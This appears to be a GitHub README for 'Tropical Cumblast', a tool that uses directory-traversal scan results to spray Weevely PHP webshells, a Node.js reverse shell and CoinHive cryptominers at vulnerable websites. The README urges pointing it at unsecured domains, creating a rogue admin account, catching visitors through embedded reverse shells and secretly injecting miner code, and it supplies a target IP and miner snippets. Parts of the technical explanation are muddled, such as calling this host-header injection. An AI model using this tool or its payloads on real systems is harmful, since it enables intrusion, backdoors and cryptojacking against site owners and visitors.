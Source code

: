 # Tropical Cumblast - A easy-mode, webshell/reverse-shell and cryptojacking malware spamming cannon



Written in under a day using

1. Python Requests


2. Needs dotdotpwn reports so it has something to parse


3. Preloaded with Weevely PHP Weaponized Webshells, one JavaScript reverse shell provided by Rapid7 and one example CoinHive Cryptominer

[](https://raw.githubusercontent.com/tanc7/tropicalblast/master/running.png)

All it really does, is spam the living hell out of enumerated file upload vulnerabilities and path permissions issues that should have been taken care of by their administrators.

This is also known as host-header injection.

How it works is...

1. Reads a list of known directory traversal vulns from a wordlist
2. Generates a gigantic list of HTTP GET/POST/PUT requests,
3. Hammers the router with it for half an hour
4. And find out which one of the payloads made it.

You want to be looking at a traversal vulnerablity. that throws a code 302 or lower. That is the only chance we have at getting a stable shell to immediately work with.

Be warned, that it's quite tough. The first thing you should do if you land a shell is immediately get out of the environment, escalate your privileges and add yourself as a new username="admin". This app was specifically designed to launch Weevely PHP payloads, in both it's raw execuable form and as a embedded malware component on webpages.

# Installing and running it.

As long as you have dotdotpwn and some form of a reverse or web shell, then you are already ready to go.

1. Generate a wordlist of scanning results via dotdotpwn. dotdotpwn -m http -h http://ip.addr.ip.v4:80
2. Save the terminal results and change the value of 

**list_of_injectable_links** = "/root/dumppvulns.log"


**target** = "http://104.27.155.158:80"


**payload** = "thumbnails.php"

Then you need to generate some payloads. Be sure to take the shellcode and replace the values of these with it...

**raw_nodejs** = """
<html lang="en" dir="ltr">
    <meta charset="utf-8">
    <script type="text/javascript">
    </script>
    
**html_embedded_payload_buffer** = """
<html lang="en" dir="ltr">
    <meta charset="utf-8">
<script type="text/php">
    </script>
  
 # And remember to select your payload by changing the value of this.
 
**payload_buffer** = html_embedded_payload_buffer


With someone's index.html in the root web directory, with rwx permissions, then the payload will definitely go off even if its embedded as script tags in the html webpage. 

If someone loads your website. It goes off. Inside of THEIR webbrowser. And if they were to escape the sandbox of the web browser, then they got a lot to worry about.

# This already is working with...

1. Three working payloads from

      a. A Weevely PHP Penetration Testing Webshell
      b. A embedded PHP of that variant inside of a file called index.htm (it is created when the attack starts) due to the nature of POST requests
      c. A NodeJS Metasploit reverse shell, easily upgradable to Meterpreter.
  
Shell injection vulnerabilities are in fact, disturbingly common. If you own a wordpress, try running this against it to audit it.

# Official Steps

1. Generate a vulnerability report with dotdotpwn
2. Generate your own payloads using Weevely, Metasploit, Pupy, CoinHive, etc.
3. Load all of the obfuscated code into the script urlinjector.py

Point your cannon at whatever unsecured domain you found, and let it rip! Keep your reverse shell listeners running at ALL TIMES. If a web app payload embedded into a webpage snares someone, their reverse shell will be connecting IMMEDIATELY.
# Frighteningly enough, you can even blast websites with persistent cryptominers on it.

First make a account on CoinHive. https://coinhive.com/. Don't forget to get yourself a web wallet too for the Monero you'll be making.

Then take a look at the CONSENSUAL MINER CODE and merely replace the source web app link as so.

```
<script src="https://authedmine.com/lib/simple-ui.min.js" async></script>
<div class="coinhive-miner" 
	style="width: 256px; height: 310px"
	data-key="YOUR_SITE_KEY">
	<em>Loading...</em>
</div>
```
Here is the completed work. All you need to do is switch the src javascript file and add your official CoinHive key. Be sure to encrypt it when you actually use this blaster.

```
 <script src="https://coinhive.com/lib/coinhive.min.js"></script>
  <script>
  	var miner = new CoinHive.Anonymous('mPVwGCQgKvckboARWHMIe3CYLTISHSzU', {throttle: 0.3});

  	// Only start on non-mobile devices and if not opted-out
  	// in the last 14400 seconds (4 hours):
  	if (!miner.isMobile() && !miner.didOptOut(14400)) {
  		miner.start();
  	}
  </script>
```

Finally you want to enclose it with a ordinary webpage's syntax

```
<!DOCTYPE html>
<html lang="en" dir="ltr">
  <head>
    <meta charset="utf-8">
    <title></title>
  </head>
  <body>
    <script src="https://authedmine.com/lib/simple-ui.min.js" async></script>
<div class="coinhive-miner"
	style="width: 256px; height: 310px"
	data-key="YOUR_SITE_KEY">
	<em>Loading...</em>
</div>
  </body>
</html>
```

Or just download someone else's page with wget or httrack and then slip this code in there before loading it into the cannon.


